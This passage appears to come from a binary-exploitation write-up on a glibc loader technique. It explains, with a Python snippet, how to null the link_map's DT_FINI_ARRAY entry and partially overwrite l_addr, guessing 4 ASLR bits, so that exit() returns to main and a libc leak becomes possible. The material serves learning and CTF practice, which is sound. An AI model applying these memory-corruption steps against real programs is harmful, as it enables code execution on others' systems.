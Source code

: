 ![_dl_call_fini_](img/screen_3.png)

As in the `House of Blindness`, we want to avoid the first condition by setting `DT_FINI_ARRAY` to NULL, leaving us with the second condition.
In this one, the program will add the value located at `[DT_FINI+0x8]` (which correspond to the offset of `_fini`) to the value of `l_addr` (which corresponds to the binary base) and jumps to it. By modifying the value of `l_addr`, we can ensure that the result of this operation will be the address of `main` and not `_fini`. 

The 12 lower bits of any address are not randomized by the ASLR, so we can modify one byte without risks. 
However, we will have to modify the 2 lower bytes of `l_addr`, so we will have to guess 4 bits of ASLR (which is a 1/16 success rate, which is fine in my book).

```python
# To be able to leak libc, we need to make sure the program does not exit when calling the exit() function
# We will achieve this by attacking the link_map of the binary itself
# It is stored at ld + 0x332d0

ld = 0x239000 - 0x10
link_map = ld + 0x332d0

# First, we should have to disable link_map->l_info[DT_FINI_ARRAY]
# l_info is at offset 8 of the link_map and DT_ARRAY is at offset 26 of l_info https://elixir.bootlin.com/glibc/latest/source/elf/elf.h#L907


for i in range(8):
  relative_write(0, link_map + link_map_offsets["l_info"]["DT_FINI_ARRAY"] + i)

# Now, we cannot do a partial write on link_map->l_info[DT_FINI] to point it where a space of memory we control, as we cannot write near the memory space of the binary
# However, as the offset used in DL_CALL_DT_FINI is fixed, we could overwrite link_map->l_addr to trick the binary into cycling back to main
# The problem is, we will have to write the 2 lower bytes in link_map->l_addr, meaning we must guess 4 random bits
# This is acceptable

relative_write(0x86, link_map + link_map_offsets["l_addr"])
```